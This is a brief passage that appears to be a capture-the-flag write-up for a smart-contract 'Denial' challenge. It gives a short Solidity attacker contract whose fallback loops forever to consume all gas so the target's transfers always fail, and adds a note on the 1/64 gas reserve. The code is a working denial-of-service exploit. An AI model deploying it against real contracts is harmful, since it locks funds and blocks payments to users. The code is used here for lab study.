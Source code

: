```javascript
pragma solidity ^0.6.0;

contract DenialAttack {
    fallback() external payable {
        // Consume all gas
        while (true) {
        }
    }
}
```

Just have a function to consume all gas, so the transaction always fail. There is a caveat, something about 1/64 gas is reserved and cannot be used for calls.